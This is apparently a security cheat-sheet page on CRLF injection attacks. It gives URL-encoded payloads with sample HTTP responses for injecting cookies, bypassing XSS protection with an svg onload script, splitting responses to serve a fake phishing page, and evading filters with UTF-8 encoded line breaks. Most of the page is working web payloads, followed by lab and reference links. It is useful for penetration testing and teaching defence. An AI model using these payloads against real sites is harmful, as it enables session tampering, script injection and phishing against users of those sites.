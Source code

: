 # Carriage Return Line Feed

> The term CRLF refers to Carriage Return (ASCII 13, \r) Line Feed (ASCII 10, \n). They're used to note the termination of a line, however, dealt with differently in today’s popular Operating Systems. For example: in Windows both a CR and LF are required to note the end of a line, whereas in Linux/UNIX a LF is only required. In the HTTP protocol, the CR-LF sequence is always used to terminate a line.

> A CRLF Injection attack occurs when a user manages to submit a CRLF into an application. This is most commonly done by modifying an HTTP parameter or URL.

## Summary

- [CRLF - Add a cookie](#crlf---add-a-cookie)
- [CRLF - Add a cookie - XSS Bypass](#crlf---add-a-cookie---xss-bypass)
- [CRLF - Write HTML](#crlf---write-html)
- [CRLF - Filter Bypass](#crlf---filter-bypass)
- [Labs](#labs)
- [References](#references)

## CRLF - Add a cookie

Requested page

```http
http://www.example.net/%0D%0ASet-Cookie:mycookie=myvalue
```

HTTP Response

```http
Connection: keep-alive
Content-Length: 178
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Location: https://www.example.net/[INJECTION STARTS HERE]
Set-Cookie: mycookie=myvalue
X-Frame-Options: SAMEORIGIN
X-Sucuri-ID: 15016
x-content-type-options: nosniff
x-xss-protection: 1; mode=block
```

## CRLF - Add a cookie - XSS Bypass

Requested page

```powershell
http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e
```

HTTP Response

```http
HTTP/1.1 200 OK
Date: Tue, 20 Dec 2016 14:34:03 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 22907
Connection: close
X-Frame-Options: SAMEORIGIN
Last-Modified: Tue, 20 Dec 2016 11:50:50 GMT
ETag: "842fe-597b-54415a5c97a80"
Vary: Accept-Encoding
X-UA-Compatible: IE=edge
Server: NetDNA-cache/2.2
Link: <https://example.com/[INJECTION STARTS HERE]
Content-Length:35
X-XSS-Protection:0

23
<svg onload=alert(document.domain)>
0
```

## CRLF - Write HTML

Requested page

```http
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E
```

HTTP response

```http
Set-Cookie:en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 34

<html>You have been Phished</html>
```

## CRLF - Filter Bypass

Using UTF-8 encoding

```http
%E5%98%8A%E5%98%8Dcontent-type:text/html%E5%98%8A%E5%98%8Dlocation:%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%BCsvg/onload=alert%28innerHTML%28%29%E5%98%BE
```

Remainder:

* %E5%98%8A = %0A = \u560a
* %E5%98%8D = %0D = \u560d
* %E5%98%BE = %3E = \u563e (>)
* %E5%98%BC = %3C = \u563c (<)


## Labs

* [https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection)


## References

* https://www.owasp.org/index.php/CRLF_Injection
* https://vulners.com/hackerone/H1:192749
